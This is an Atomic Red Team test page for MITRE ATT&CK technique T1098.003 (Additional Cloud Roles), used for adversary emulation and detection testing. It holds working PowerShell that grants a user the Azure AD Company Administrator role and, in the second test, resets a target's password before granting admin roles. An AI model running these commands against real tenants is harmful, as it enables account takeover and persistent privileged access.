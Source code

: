 # T1098.003 - Account Manipulation: Additional Cloud Roles
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1098/003)
<blockquote>An adversary may add additional roles or permissions to an adversary-controlled cloud account to maintain persistent access to a tenant. For example, adversaries may update IAM policies in cloud-based environments or add a new global administrator in Office 365 environments.(Citation: AWS IAM Policies and Permissions)(Citation: Google Cloud IAM Policies)(Citation: Microsoft Support O365 Add Another Admin, October 2019)(Citation: Microsoft O365 Admin Roles) With sufficient permissions, a compromised account can gain almost unlimited access to data and settings (including the ability to reset the passwords of other admins).(Citation: Expel AWS Attacker)
(Citation: Microsoft O365 Admin Roles) 

This account modification may immediately follow [Create Account](https://attack.mitre.org/techniques/T1136) or other malicious account activity. Adversaries may also modify existing [Valid Accounts](https://attack.mitre.org/techniques/T1078) that they have compromised. This could lead to privilege escalation, particularly if the roles added allow for lateral movement to additional accounts.

For example, in Azure AD environments, an adversary with the Application Administrator role can add [Additional Cloud Credentials](https://attack.mitre.org/techniques/T1098/001) to their application's service principal. In doing so the adversary would be able to gain the service principal’s roles and permissions, which may be different from those of the Application Administrator.(Citation: SpecterOps Azure Privilege Escalation) Similarly, in AWS environments, an adversary with appropriate permissions may be able to use the <code>CreatePolicyVersion</code> API to define a new version of an IAM policy or the <code>AttachUserPolicy</code> API to attach an IAM policy with additional or distinct permissions to a compromised user account.(Citation: Rhino Security Labs AWS Privilege Escalation)

Similarly, an adversary with the Azure AD Global Administrator role can toggle the “Access management for Azure resources” option to gain the ability to assign privileged access to Azure subscriptions and virtual machines to Azure AD users, including themselves.(Citation: Azure AD to AD) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure AD - Add Company Administrator Role to a user](#atomic-test-1---azure-ad---add-company-administrator-role-to-a-user)

- [Atomic Test #2 - Simulate - Post BEC persistence via user password reset followed by user added to company administrator role](#atomic-test-2---simulate---post-bec-persistence-via-user-password-reset-followed-by-user-added-to-company-administrator-role)


<br/>

## Atomic Test #1 - Azure AD - Add Company Administrator Role to a user
Add an existing Azure user account the Company Administrator Role.

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 4d77f913-56f5-4a14-b4b1-bf7bb24298ad





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | jonh@contoso.com|
| password | Azure AD password | string | p4sswd|
| target_user | Name of the user who will be assigned the Company Admin role | string | default|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module MSOnline
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-MsolService -Credential $Credential
Add-MsolRoleMember -RoleName "Company Administrator" -RoleMemberEmailAddress "#{target_user}"
```

#### Cleanup Commands:
```powershell
Remove-MsolRoleMember -RoleName "Company Administrator" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
```



#### Dependencies:  Run with `powershell`!
##### Description: MSOnline module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name MSOnline -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name MSOnline -Force
```




<br/>
<br/>

## Atomic Test #2 - Simulate - Post BEC persistence via user password reset followed by user added to company administrator role
This test looks at simulating the an adversary described in the following blog post. It involves resetting the password of a normal user and adding to the company administrator role within M365.
 Reference: https://www.huntress.com/blog/business-email-compromise-via-azure-administrative-privileges

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 14f3af20-61f1-45b8-ad31-4637815f3f44





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| auth_username | Azure AD username used to conduct the adversary activity | string | jonh@contoso.com|
| auth_password | Azure AD password for user auth_username | string | p4sswd|
| target_user | Name of the user whose password be reset and added to the admin role. | string | default|
| target_password | The password that the user target_user will be reset to. | string | Ohn05GeMe#$|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module MSOnline
Import-Module AzureAD
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
$targetsecurepw = ConvertTo-SecureString -String "#{target_password}" -AsPlainText -Force
Connect-MsolService -Credential $credential -ErrorAction:SilentlyContinue
Connect-AzureAD -Credential $credential -ErrorAction:SilentlyContinue

#Saving the ObjectId of the target_user into a variable
$target_objid = Get-AzureADUser -filter "userPrincipalName eq '#{target_user}'" | Select-Object -ExpandProperty ObjectId

#Reset the password of the target_user
Set-AzureADUserPassword -ObjectId  $target_objid -Password $targetsecurepw -ErrorAction:SilentlyContinue

#Adding target_user
Add-MsolRoleMember -RoleName "Company Administrator" -RoleMemberEmailAddress "#{target_user}"
Add-MsolRoleMember -RoleName "Global Reader" -RoleMemberEmailAddress "#{target_user}"
```

#### Cleanup Commands:
```powershell
Import-Module MSOnline
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
Connect-MsolService -Credential $credential
Remove-MsolRoleMember -RoleName "Company Administrator" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
Remove-MsolRoleMember -RoleName "Global Reader" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
```



#### Dependencies:  Run with `powershell`!
##### Description: MSOnline and AzureAD modules must be installed.
##### Check Prereq Commands:
```powershell
$required_mods = 'AzureAD', 'MSOnline'
$installed_mods = @((Get-Module $required_mods -ListAvailable -ErrorAction SilentlyContinue).Name  | Select-Object -Unique)
$notInstalled = Compare-Object $required_mods $installed_mods -PassThru -ErrorAction SilentlyContinue

if ($notInstalled) {
# Prompt for installing the missing ones.
Write-Output "The following PS modules aren't currently installed:"
$notInstalled
  exit 1
}

 else{
  Write-Output "All required PS modules are installed"
  exit 0
 }
```
##### Get Prereq Commands:
```powershell
Install-Module -Name MSOnline -Scope CurrentUser -Force
Install-Module -Name AzureAD -Scope CurrentUser -Force
```




<br/>
